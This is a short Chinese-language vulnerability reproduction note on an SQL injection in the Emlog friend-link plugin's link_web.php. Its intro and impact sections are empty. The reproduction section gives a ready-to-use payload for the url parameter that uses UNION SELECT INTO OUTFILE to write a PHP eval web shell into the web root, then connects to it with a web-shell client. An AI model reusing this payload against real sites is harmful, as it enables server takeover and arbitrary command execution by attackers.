Emlog 友情链接自助插件存在SQL注入漏洞
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

在该插件当中的link\_web.php文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的SQL注入漏洞就这样简易的诞生了：

![](./resource/Emlog友情链接自助插件存在SQL注入漏洞/media/rId24.png)

由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行SQL注入，首先我们可以提交正常的访问请求，之后使用burpsuite进行抓包，之后改包，我们这里以URL为例：

在抓取到数据包之后，我们可以将url改为以下内容：

    url=http://0-sec.org' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 

之后，这条语句会正常执行，同时也会在C:\\phpstudy\\www\\下生成一个shell.php，而且该shell.php中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。
